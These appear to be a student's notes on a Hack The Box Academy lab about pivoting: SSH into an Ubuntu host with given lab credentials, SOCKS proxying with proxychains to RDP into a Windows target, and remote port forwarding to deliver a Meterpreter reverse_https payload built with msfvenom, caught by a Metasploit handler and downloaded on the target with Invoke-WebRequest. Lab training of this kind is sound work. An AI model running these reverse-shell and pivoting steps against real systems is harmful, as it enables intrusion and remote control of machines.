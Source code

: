SSH to 10.129.56.99 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

1. ssh to the machine
2. run ifconfig

Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.


1. ssh -D 9050 ubuntu@
2. proxychains configuration
3. proxychains xfreerdp /v:172.16.5.19  /u:victor /p:pass@123

# Remote/Reverse Port Forwarding with SSH

In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the Windows server. In our case, our pivot host would be the Ubuntu server since it can connect to both: our attack host and the Windows target. To gain a Meterpreter shell on Windows, we will create a Meterpreter HTTPS payload using msfvenom, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (172.16.5.129). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

https://academy.hackthebox.com/storage/modules/158/33.png

## Case where the Windows target is not directly accessible from the attack host
and we want to use the Ubuntu server as a pivot host to gain access to the Windows target with a reverse connection.

1. Create a payload to be executed on the Windows target machine 
isomarakis@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

2. Create a listenedr on the attack machine with msf multi handler 
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
    payload => windows/x64/meterpreter/reverse_https
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    lhost => 0.0.0.0
    msf6 exploit(multi/handler) > set lport 8000
    lport => 8000

3. Upload the payload to the Pivot host
   scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

4. Setup an http server on the Pivot host

5. Download the payload from the windows machine 
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
